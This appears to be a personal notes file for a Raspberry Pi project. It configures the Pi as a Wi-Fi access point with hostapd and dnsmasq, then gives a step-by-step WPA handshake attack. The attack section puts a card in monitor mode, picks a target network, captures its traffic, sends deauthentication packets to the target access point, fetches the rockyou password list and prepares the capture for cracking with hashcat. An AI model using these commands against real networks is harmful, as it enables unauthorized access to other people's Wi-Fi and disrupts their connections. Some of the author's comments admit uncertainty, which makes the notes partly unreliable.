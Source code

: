 # WiPi


- nm-connection-editor #set shared on ipv4 tab for the wired conn
- ifconfig #check your own ip to get an idea of the network
- sudo nmap -e eno1 -sn 10.42.0.0/24
ssh into the discovered ip
- ssh pi@[IPaddress] #enter password. Nothing shows when you type in a pass on RPi

- sudo su #become the ROOT
- sudo apt update #update the list of packages
maybe upgrade.. restart after upgrade
- sudo apt install vim hostapd dnsmasq
stop the two services

set static ip and disable dhcp on wlan0
- edit /etc/dhcpcd.conf #add to eof
interface wlan0
static ip_address=192.168.3.254/24
denyinterfaces wlan0

rename original file for backup
- sudo mv /etc/dnsmasq.conf /etc/dnsmasq.conf.orig
create new dnsmasq.conf
- sudo vim /etc/dnsmasq.conf
interface=wlan0
dhcp-range=192.168.3.1,192.168.3.20,255.255.255.0,24h

create configuration for the access point
- vim /etc/hostapd/hostapd.conf #enter the following:
interface=wlan0
driver=nl80211
channel=7 #sets channel within the 2.4Ghz range
wmm_enabled=0 #wireless multimedia auto prioritizes media transmissions
macaddr_acl=0
auth_algs=1 #authentication algorithms. either one or on.. I'm not sure
ignore_broadcast_ssid=0
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
rsn_pairwise=CCMP
ssid=<Network_Name>
wpa_passphrase=<password> #choose a dumb one!

specify the location of the config file we just created
- sudo vim /etc/default/hostapd  #edit the following line
#DAEMON_CONF=""
to
DAEMON_CONF="/etc/hostapd/hostapd.conf"

apt install aircrack-ng p7zip git ocl-icd-libopencl1
git clone https://github.com/hashcat/hashcat.git
cd hashcat
make
make install



airmon-ng start wlan1
airmon-ng check kill
airmon-ng start wlan1
airodump-ng wlan1mon #shows nearby networks
ctrl-z
#pick target, new term. basic service set id
mkdir capture
airodump-ng -c [channel# of target] --bssid [bssid] -w /home/pi/capture wlan1mon
#new term, -0 is deauth packets, sending 2, a for AP
aireplay-ng -0 2 -a [get BSSID] wlan1mon
#second terminal has bssid for AP. check for wpa handshake
#convert and then crack. hashcat

https://da.gd/rockyou
https://da.gd/Top1000

wget https://github.com/hashcat/hashcat-utils/archive/master.zip
unzip master.zip
cd hashcat-utils-master/src
make
#create the hccap file for hashcat
./cap2hccapx.bin /home/pi/capture/-01.cap /home/pi/capture/crackme.hccap





#stop here, unmask and start services. hostapd dnsmasq
